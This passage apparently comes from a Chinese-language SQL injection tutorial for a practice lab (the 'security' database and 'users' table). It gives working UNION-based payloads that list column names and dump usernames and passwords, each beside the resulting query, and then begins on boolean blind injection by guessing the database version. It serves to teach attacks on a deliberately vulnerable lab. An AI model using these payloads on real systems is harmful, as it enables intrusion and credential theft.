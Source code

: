 `id=id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE  table_schema = 'security' AND table_name='users' --+`

```sql
SELECT * FROM users WhERE id = '-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE  table_schema = 'security' AND table_name='users' --+` LIMIT 0,1
```

![](/assets/images/move/1549196119537-bec64921-7bfc-479f-8292-10520cb8e005.png)


- 爆数据

`id=-1' UNION SELECT id,username,password FROM users WHERE id = 3 --+`

```sql
SELECT * FROM users WhERE id = '-1' UNION SELECT id,username,password FROM  users WHERE id = 3 --+` LIMIT 0,1
```

![](/assets/images/move/1549196396683-3511de3a-b925-414d-9f2e-135eed456e00.png)


## Double Injection

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`id=1' or 1=1 --+`回显`You are in...........`。


### 布尔盲注

**1.猜数据库名**

利用`left(version(),1)`进行尝试，`id=1' AND left(version(), 1)=5 --+`回显正常。
